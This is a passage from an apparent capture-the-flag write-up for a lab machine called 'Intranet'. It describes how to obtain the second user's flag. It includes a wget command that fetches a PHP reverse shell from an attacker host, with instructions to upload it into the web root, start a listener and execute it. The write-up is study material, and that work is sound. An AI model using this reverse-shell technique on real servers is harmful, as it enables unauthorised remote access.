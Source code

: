 <br /><br />

---

### User 2 flag

**From `ps aux` the user `andres` was running apache service that was running on port 80**

go to `/var/www/html` and check the index.html. you will see that this was the  underconstruction website.

<br />

**Configure and upload the reverse shell**

```bash
wget http://10.10.138.166:8000/php-reverse-shell.php
```

<br />

![](/assets/img/thm/intranet/19.png)



<br />

**Start the listener and execute the shell**

get the user2 flag

![](/assets/img/thm/intranet/20.png)
